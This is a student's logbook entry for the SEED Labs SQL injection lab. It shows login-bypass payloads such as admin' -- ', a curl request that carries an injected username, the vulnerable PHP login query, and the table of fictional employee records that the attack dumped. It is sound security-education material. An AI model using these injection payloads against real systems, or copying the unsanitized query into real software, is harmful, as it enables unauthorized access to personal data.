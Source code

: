 ## Week 8 - SQL INJECTION ATTACK LAB

### Task 1  - Get familiar with SQL statements

Following the lab guide, first we followed the rules of setting up an lab environment with docker commands. 
After getting the container id, we were able to run mysql querie to obtain information about the credential tables by using the following sql command: 

```
select * from credential;

OR, if we wanted only Alice information: 

select * from credential where name = "Alice"; 

```
![Terminal print task1](/images/Logbook%208%20images/task1.11.png)


## Task 2.1 - SQL Injection Attack from webpage

This task consists in a typical SQL injection attack, in order to authenticate as an admin, we used the username admin' -- '

So being, we are able to bypass the password validation, since the the original querie will be modified to this one:

```
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' -- ' and Password='$hashed_pwd'

```

As you can see, the password field will be commented by the '--' which allows us to only authenticate using the username field 


![Terminal print task2.1](/images/Logbook%208%20images/task_2.1.png)

![Terminal print task2.1](/images/Logbook%208%20images/task2.1.1.png)



## Task 2.2 - SQL Injection Attack from command line

We executed the following querie, according to the substitution char replacement rules as shown on the lab guide

```
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password=11'
```

We were able to get acess to the html/css code of the website as shown below

```

<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>

  ```

## Task 2.3 - Append a new SQL statement 

For this task, we need to try to run two SQL statements by exploiting the vulnerabilities in the previous tasks. we can try to login as admin and add another user in the same input by trying the following:


![Terminal print task2.3](/images/Logbook%208%20images/task2.3errorsql.png)

We are not able to do it this way, due to this sql statement error.

A few hours later, right when we were this close of jumping into a cliff, we inspected the source code of the website we came across this code:

```
// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
if (!$result = $conn->query($sql)) {
  echo "</div>";
  echo "</nav>";
  echo "<div class='container text-center'>";
  die('There was an error running the query [' . $conn->error . ']\n');
  echo "</div>";
}

```

We noticed that the bright mind who wrote the website, used the query() function, and we found that its not possible to use multiple queries with a querie() function, it would be necessary to use the multi_querie() function instead.

Check it out here: https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php




